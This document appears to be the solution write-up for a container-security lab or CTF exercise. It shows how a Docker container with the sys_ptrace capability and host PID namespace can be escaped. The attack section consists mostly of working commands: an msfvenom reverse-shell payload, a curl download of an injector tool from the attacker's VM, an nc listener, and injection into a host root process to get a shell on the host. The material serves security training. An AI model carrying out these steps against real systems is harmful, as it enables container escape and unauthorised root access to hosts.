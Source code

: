 # Attacking Container Capabilities - Solution

* Login to the container using below command. Ensure that you run this in the `CTF` vm 

```bash
docker exec -it sysmon bash
```

* Set the VM IPs in the environment replacing the values with the correct IPs

```bash
export STUDENTVMIP=192.168.x.y && export CTFVMIP=192.168.w.z
```

![docker exec into sysmon](images/sysmon-access.png)

* Check for existing capabilities by running `capsh --print`

![capsh print](images/sysmon-capsh.png)

* Also the container has enabled `--pid=host` so we can access then host process using `top` command

![top command](images/sysmon-top.png)

> Since an attacker can list host processes and has the `sys_ptrace` capability. Attacker can exploit this scenario to inject and execute code from the address space of any host process. This effectively results in a docker escape as the attacker can execute code outside the container.

## Steps to attack

* Generate reverse shell payload using metasploit's `msfvenom` program. 

```bash
cd /home/student/linux-injector

msfvenom -p linux/x64/shell_reverse_tcp LHOST=$STUDENTVMIP LPORT=4444 -f raw -o payload.bin
```

![msfvenom generate](images/sysmon-msfvenom-generate.png)

* Send the exploit and injector program to the container using simple python server. Run the below command in student vm

```bash
cd /home/student
tar -czf linux-injector.tar.gz linux-injector
python -m SimpleHTTPServer 8002
```

![start python server](images/sysmon-start-python-server.png)

* Download the payload in the ctf vm container. Run the below command in the CTF vm and inside the `sysmon` container.

```bash
curl -o linux-injector.tar.gz http://$STUDENTVMIP:8002/linux-injector.tar.gz
tar xzf linux-injector.tar.gz
cd linux-injector
chmod 755 injector
```

![download the payload](images/sysmon-download-payload.png)


* Start the `nc` listener to receive the connect back shell in student vm. Run the following command in student VM

```bash
nc -lvp 4444
```

![start nc listener](images/start-nc-listener.png)


* Now identify the process, which is running as `root` in the host system to gain root access for connect back. Run the following command inside CTF vm `sysmon` container

```bash
ps auxx | grep root | grep ping
```

![sysmon payload execution](images/sysmon-payload-execution.png)

```bash
./injector 2046 payload.bin
```

* On successful injection of payload, we get a reverse connection at our listener with access to host system outside the container

![got access to host system flag](images/sysmon-access-host-flag.png)
